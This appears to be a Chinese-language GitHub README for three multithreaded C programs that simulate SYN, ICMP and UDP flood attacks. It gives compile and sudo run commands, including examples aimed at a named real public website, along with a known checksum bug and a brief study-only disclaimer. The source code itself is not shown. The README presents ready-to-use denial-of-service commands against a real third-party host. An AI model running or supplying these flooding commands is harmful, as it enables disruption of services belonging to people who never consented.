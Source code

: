 1.SYN-ATTACK
==========
作者: Xuebi

邮箱: 2685043624@qq.com

Created Time: 2020.01.07

##### 说明：
1.本程序采用多线程，模拟syn洪水进攻。
2.采用wireshack查看数据包

##### 使用:
```
$ gcc -o syn_attack syn_attack.c -lpthread
$ sudo ./syn_attack <IPaddress> <port>
```
例如
```
$ sudo ./syn_attack 0.0.0.0 80
$ sudo ./syn_attack www.pornhub.com 80
```



2.ICMP-ATTACK
==========
作者: Xuebi

邮箱: 2685043624@qq.com

Created Time: 2020.01.09

##### 说明：
1.本程序采用多线程，模拟icmp洪水进攻。
2.采用wireshack查看数据包

##### 使用:
```
$ gcc -o icmp_attack icmp_attack.c -lpthread
$ sudo ./icmp_attack <IPaddress>
```
例如
```
$ sudo ./icmp_attack 0.0.0.0 
$ sudo ./icmp_attack www.pornhub.com
```

##### Bug
1. 发送的数据包中，ICMP检验和一半的包正确，一半的包错误。

3.UDP-ATTACK
==========
作者: Xuebi

邮箱: 2685043624@qq.com

Created Time: 2020.01.07

##### 说明：
1.本程序采用多线程，模拟udp洪水进攻。
2.采用wireshack查看数据包

##### 使用:
```
$ gcc -o udp_attack udp_attack.c -lpthread
$ sudo ./udp_attack <IPaddress> <port>
```
例如
```
$ sudo ./udp_attack 0.0.0.0 80
$ sudo ./udp_attack www.pornhub.com 80
```


###注意：
-----
本代码仅供交流学习，不得进行非法用途。
